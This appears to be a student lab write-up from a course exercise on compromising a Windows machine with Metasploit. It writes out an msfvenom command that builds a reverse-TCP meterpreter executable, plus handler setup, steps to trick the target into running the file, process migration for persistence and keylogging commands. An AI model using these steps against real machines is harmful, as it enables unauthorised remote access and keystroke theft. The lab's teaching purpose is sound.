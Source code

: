 # EX06 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
```
NAME : VASUNDRA SRI R
REGISTER N0 : 212222230168
```

### PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:
![1ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/65acd676-3f6b-43e2-ab3d-eab3ac71f52a)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT:
![2ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/0d71f249-b350-4520-a675-10682f31bfa9)

copy the fun.exe into the apache /var/www/html folder

![3ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/40d67abf-a7a0-49d8-b07a-04602a413067)
Start apache server
sudo systemctl apache2 start

![4ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/1adafd50-4b0a-4eb5-b578-f1e1e395518b)
Check the status of apache2

![5ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/4b381f48-9984-4312-9925-dce70d581bc9)
Invoke msfconsole:
### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/725191c5-ca87-46d4-bcc9-80f0306816ee)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/55a40491-a16c-480f-a1bf-8151083fbae5)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![7ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/5bcc5312-2942-4355-8ffd-e99b749e6639)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![8ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/586a7446-0fd9-41b7-b30c-59b64c5220d6)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![9ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/1632816d-0cbd-430b-aaf6-8c4baff3f4fb)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/fd98d79e-83e6-47be-a2cc-6356656cf3db)

keyscan_dump	Shows the keystrokes captured so far
![10ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/03f16b99-9a26-4b6d-bd63-ab7d3ab02a70)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
